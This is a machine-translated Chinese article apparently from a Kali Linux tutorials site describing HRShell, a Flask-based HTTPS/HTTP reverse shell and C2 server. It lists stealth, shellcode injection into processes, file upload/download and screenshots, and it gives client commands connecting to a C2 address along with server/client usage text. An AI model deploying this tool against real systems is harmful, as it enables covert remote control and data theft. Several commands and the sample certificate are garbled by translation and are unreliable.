




# HRShell:用 Flask 构建的 HTTPS/HTTP 反向外壳

> 原文：<https://kalilinuxtutorials.com/hrshell-https-http-reverse-shell-built-with-flask/>

HRShell 是一个用 flask 构建的 HTTPS/HTTP 反向 Shell。这是一个先进的 C2 服务器，具有许多功能&。

这是一个用 flask 构建的 HTTPS/HTTP 反向外壳。它与 python 3.x 兼容，并已在以下平台上成功测试:

*   Linux Ubuntu 18.04 lt，Kali Linux 2019.3
*   马科斯·莫哈维
*   Windows 7/10

**特点**:

*   它是隐形的
*   **TLS** 支持
    *   使用即时证书或
    *   通过指定一个证书/密钥对(更多细节见下文…)
*   外壳代码注入(更多细节见下文……)
    *   要么在当前运行进程的线程中注入外壳代码
        *   迄今支持的平台:
            *   **Windows x86**
            *   **Unix x86**
            *   **Unix x64**
    *   或者通过指定 PID 将外壳代码注入另一个进程(`migrate <PID>`)
        *   迄今支持的平台:
            *   **Windows x86**
            *   **Windows x64**
*   外壳代码可以在服务器上动态设置/修改(更多细节见下文…)
*   客户端上的代理支持。
*   目录导航(`cd`命令和变体)。
*   `download/upload/screenshot`可用命令。
*   支持流水线(`|` ) &)链式命令(`;`)
*   支持每一个非交互式(如 gdb，top 等)命令
*   服务器支持 HTTP 和 HTTPS。
*   到目前为止，它配备了两个内置服务器… flask 内置& tornado-WSGI，同时它还兼容其他生产服务器，如 [`gunicorn`](http://gunicorn.org/) 和 [`Nginx`](https://www.nginx.com/) 。
*   `server.py`和`client.py`都很容易扩展。
*   因为大部分功能来自服务器的端点设计，所以用其他语言编写客户端非常容易，例如 java、GO 等

**也可理解为-****[路由器漏洞挖掘铲:无线路由器上栈溢出类型的自动应用生成](https://kalilinuxtutorials.com/router-exploit-shovel-automated-application-generation-for-stack-overflow-types-on-wireless-routers/)**

**详情**

**TLS 键**

**服务器端:**除非指定了–http 选项，否则默认情况下 server.py 是使用动态证书的 HTTPS，因为动态证书是一个内置的 flask 特性。但是，如果为了使服务器使用 TLS 而指定了-s tornado 选项，则必须指定 a-cert 和 a-key 选项，如下所示:

**python server . py-s tornado–cert/path/cert . PEM–key/path/key . PEM**

可以使用“真正的”证书，或者另一种生成证书/密钥对的方法是使用 openssl，如下所示:

**OpenSSL req-x509-new key RSA:4096-nodes-out cert . PEM-keyut key . PEM-days 365**

证书/密钥对也可用于 flask 服务器:

**python server . py–cert/path/cert . PEM–key/path/key . PEM**

> **注意**:如果服务器使用 TLS，那么根据设计，客户端不能使用`http://...`连接到服务器，而必须显式使用`https`来代替。

**客户端:**默认情况下，客户端的 SSL 验证被禁用，除非:

*   要么指定–cert 参数，例如:

**python client . py-s https://192 . 168 . 10 . 7:5000–cert/path/cert . PEM**

*   或者 CERT 变量，而不是缺省的 None 值，是预先用有效的证书设置的，例如:

**证书=”
——开始证书】
miiboccoucacqawdyjkozykhvcnaqqyqyqawyzermakga 1 uebhmcqvuxezarbgnv
bagtclf 1 zw vuc 2 xhbmqxgjaybgnvboteunyexb 0 u 29 mdcbhkgthrkmsmqyd
vqqdexpat**

在这种情况下，client.py 将尝试动态创建一个隐藏的. cert.pem 文件，并将使用该文件。

**外壳代码注入**

外壳代码注入有两种“模式”,分别使用以下两个命令:

1.  使用这个命令，我们可以通过指定进程的 PID 将外壳代码注入到另一个进程的内存空间中。目前这个命令只能应用在 **Windows x86/x64** 平台上！

2.使用这个命令，我们当前进程的一个新线程被创建，外壳代码注入发生在它的内存空间中。因此，我们的 HTTP(S) shell 不会受到注入的影响。该命令可以应用的平台有: **Unix x86/x64，Windows x86** 平台！

**注意:**如果注入发生在一个流程上，那么流程权限起着非常重要的作用。由于缺乏适当的权限，并不总是能够在任何进程上注入。

**设置/修改外壳代码**

有两种方法可以指定/设置希望客户端执行的外壳代码类型:

*   将`client.py`脚本上的`shellcode`变量预设为有效的外壳代码，或者
*   使用`set shellcode <shellcode-id>`命令动态完成该操作。使用这个命令，您可以从服务器端更新您的外壳代码，次数不限！

第一种方法非常简单。然而，为了使用第二种更方便的方法(*，因为你也可以修改一个已经指定的外壳代码*)，你必须设置`shellcodes/utils.py`脚本，使其包含你选择的外壳代码。该脚本包含了一个如何做到这一点的示例。

> 你可以修改/更新`shellcodes/utils.py`脚本，即使你已经启动了`server.py`多次，因为`server.py`将动态使用最新/最近的版本。通过这种方式，您可以随时设置&修改外壳代码…

**可用命令:** **特殊命令**

支持任何其他命令，如果它是**而不是**像*那样交互的，例如 gdb、top 等……*也可以通过键入`python server.py -h`或`python client.py -h`获得服务器和客户端可用参数的信息。

**注意:**如果一个客户端与服务器连接，我们想终止服务器，在按 CTRL+C 之前，我们必须使用`exit`命令关闭连接。

**创建自定义命令**

**客户端:**

为了创建一个*自定义*命令，一般情况下:

*   描述命令的正则表达式规则必须在客户端定义
*   处理该命令的代码必须作为一个`elif`语句添加到客户端。

**服务器端:**

如果该命令要求服务器端存在新端点，则:

*   要定义端点:

**@ app . route('/custom _ endpoint/')
def custom _ endpoint(arg):
" " "
文档如果需要
"""
…
return …**

*   然后编辑 handleGET()将客户端重定向到该端点:

**@ app . route('/')
def handleGET():
……
return redirect(URL _ for(' custom _ endpoint '，
arg =……)
)**

*   在 handlePOST()中进行适当的编辑，以处理结果的显示。

**脚本参数**

两个脚本(server.py 和 client.py)都可以通过参数进行自定义:

**server.py**

**$ python server.py -h
用法:server . py[-h][-S][-c][–host][-p][–HTTP][–cert][–key]

server . py:具有高级功能的 HTTP(S)反壳服务器。

参数:
-h，–help 显示此帮助消息并退出
-s，–server 指定要使用的 HTTP(S)服务器(默认:flask)。
-c，–客户端仅接受来自指定客户端/IP 的连接。
–主机指定要使用的 IP(默认值:0.0.0.0)。
-p，–port 指定要使用的端口(默认值:5000)。
–http 禁用 TLS，改用 HTTP。
–cert 指定要使用的证书(默认值:无)。
–key 指定要使用的相应私钥(默认:无)。**

**client.py**

**$ python client.py -h
用法:client . py[-h][-S][-c][-p]

client . py:具有高级功能的 HTTP(S)客户端。

参数:
-h，–help 显示此帮助消息并退出
-s，–server 指定要连接的 HTTP(S)服务器。
-c，–cert 指定要使用的证书。
-p，–proxy 指定要使用的代理【格式:主机:端口】**

**要求**:

安装服务器-要求:

**pip install-r requirements . txt–升级–用户**

**免责声明**

该工具仅用于测试和学术目的，并且只能在严格同意的情况下使用。请勿用于非法目的！最终用户有责任遵守所有适用的地方、州和联邦法律。开发人员不承担任何责任，也不对该工具和软件造成的任何误用或损坏负责。

**演职员表**:塞茨 j .灰帽蟒

[Download](https://github.com/chrispetrou/HRShell)